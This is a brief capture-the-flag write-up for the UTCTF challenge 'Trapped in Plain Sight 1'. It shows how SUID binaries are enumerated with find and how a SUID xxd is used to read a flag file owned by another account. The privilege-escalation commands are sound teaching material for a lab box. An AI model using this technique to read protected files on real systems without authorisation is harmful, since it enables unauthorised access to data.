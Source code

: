 # Trapped in Plain Sight 1:
```sh
ssh -p 4302 trapped@challenge.utctf.live
```

### Poking around:

flag.txt is not readable and owned by the account "noaccess"

sudo was not a command, so can't do sudo -l to see sudoable binaries

### Solution:
```sh
find / -perm -u=s -type f 2>/dev/null
```

Used this command to find suid binaries

I noticed that xxd command had suid bit set.
**Eureka!**

```sh
xxd flag.txt
```

Flag output in format utflag{}

This works because the **suid bit** allows whoever is executing the file (in this case xxd) to execute it as the owner, in this case iirc root.

So, it executed xxd as root which read the file.
